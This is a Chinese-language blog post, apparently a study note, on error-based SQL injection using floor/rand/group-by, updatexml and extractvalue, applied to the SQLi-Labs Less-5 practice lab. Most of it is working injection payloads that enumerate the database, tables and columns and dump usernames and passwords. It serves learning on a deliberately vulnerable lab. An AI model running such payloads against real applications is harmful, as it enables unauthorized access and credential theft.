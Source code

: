 ```yaml
---
layout: post
title: SQL_双查询注入_LESS
date: 2021-06-04 13:58 +0900
category: sql-inject
---
```


## 0x0 SQL注入基本姿势

**floor报错注入**  

``` sql
Rand() //随机函数，用于产生 0 至 1 之间的随机数
Floor() //取整函数，向下舍入为指定小数位数 如：floor(1.45,0)= 1;floor(1.55,0) = 1
Count() //汇总函数
Group by clause //分组语句
concat() //连接两个字符串
```
在一个聚合函数，比如count函数后面如果使用 **Group by** 分组语句就会把查询的一部分以错误的形式显示出来  

``` sql
SELECT floor(rand()*2) //查询结果不是0就是1
SELECT CONCAT((SELECT database()), FLOOR(RAND()*2)) //查询出数据库的名称并在后面拼接0或者1
```
**如果我们把这条语句后面加上 from 一个表名。那么一般会返回security0或security1的一个集合。数目是由表本身有几条结果决定的**  

```sql
select concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a;
//把concat((select database()), floor(rand()2)) 这个结果取了一个别名 a
//然后使用他进行分组。这样相同的security0分到一组，security1分到一组。就剩下两个结果了
```
![](/images/20210602-1.png)
```sql
select count(*), concat((select database()), floor(rand()*2)) as a from information_schema.tables group by a;
//加入count引起报错，或者正常输出
```
![](/images/20210602-2.png)
![](/images/20210602-3.png)
```sql
select count(*), concat('0x7C',(select user()),'0x7C', floor(rand()*2)) as a from information_schema.tables group by a;
//加入 '~'让结果更加清晰
```

**updatexml()函数**  
```sql
select * from message where id = 1 and updatexml (1, (concat (0x7C, (select @@version))) ,1);
```
**extractvalue()函数**  
```sql
select * from message where id= 1 and extractvalue (1, concat (0x7C, (select user()));
```

## 0x1 LESS-5
- 存在注入点  
![](/images/20210602-4.png)
- 爆出数据库
`?id=1' union select updatexml (1, (concat (0x7e, (select database()),0x7e)) ,1) --+`  
![](/images/20210602-5.png)
- 爆出表名
`?id=1' union select updatexml (1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e)) ,1) --+`  
![](/images/20210602-6.png)
- 爆出字段
`?id=1' union select updatexml (1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema = database()),0x7e)) ,1) --+`  
![](/images/20210602-7.png)
- 爆出用户名密码  
`?id=1' and updatexml(1,concat(0x5e,(select group_concat(username,0x7e,password) from users),0x5e),1) --+`
![](/images/20210602-8.png)
**只爆出了部分结果**  
`?id=1' and updatexml(1,concat(0x5e,(substr((select group_concat(username,0x7e,password) from user),1)),0x5e),1)--+`
![](/images/20210602-9.png)